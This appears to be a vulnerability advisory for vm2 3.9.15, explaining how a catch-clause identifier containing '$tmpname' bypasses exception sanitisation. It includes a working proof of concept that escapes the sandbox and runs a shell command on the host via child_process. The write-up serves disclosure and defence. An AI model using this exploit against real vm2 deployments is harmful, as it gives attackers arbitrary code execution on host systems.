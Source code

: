 # Sandbox Escape in vm2@3.9.15

##
#
https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c
#
##

## Summary

There exists a vulnerability in source code transformer (exception sanitization logic) of vm2 for versions up to 3.9.15, allowing attackers to bypass `handleException()` and leak unsanitized host exceptions which can be used to escape the sandbox and run arbitrary code in host context.


## Proof of Concept

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```


## Analysis

As host exceptions may leak host objects into the sandbox, code is preprocessed with `transformer()` ([lib/transformer.js:49](https://github.com/patriksimek/vm2/blob/3.9.15/lib/transformer.js#L49)) in order to instrument the code with sanitizer function calls ([lib/transformer.js:108](https://github.com/patriksimek/vm2/blob/3.9.15/lib/transformer.js#L108)).

Identifier name of catch clause is interpolated into `insertions` as `code` ([lib/transformer.js:137](https://github.com/patriksimek/vm2/blob/3.9.15/lib/transformer.js#L137)) to sanitize caught exception, possibly a host exception.

This is subsequently post-processed to replace `$tmpname` with the string value in `tmpname` (originally `VM2_INTERNAL_TMPNAME`) for `ObjectPattern` case sanitization code ([lib/transformer.js:189](https://github.com/patriksimek/vm2/blob/3.9.15/lib/transformer.js#L189)), which in turn allows an attacker to bypass `handleException()` with identifiers containing the string `$tmpname`.

An attacker may then use any method to raise a host exception ([test/vm.js:1082](https://github.com/patriksimek/vm2/blob/3.9.15/test/vm.js#L1082) for example, via internal `prepareStackTrace`) and use it to access host `Function` constructor, escaping the sandbox and gaining arbitrary code execution in host context.


## Impact

Remote Code Execution, assuming the attacker has arbitrary code execution primitive inside the context of vm2 sandbox.


## Credits

[Xion](https://twitter.com/0x10n) (SeungHyun Lee) of [KAIST Hacking Lab](https://kaist-hacking.github.io/)

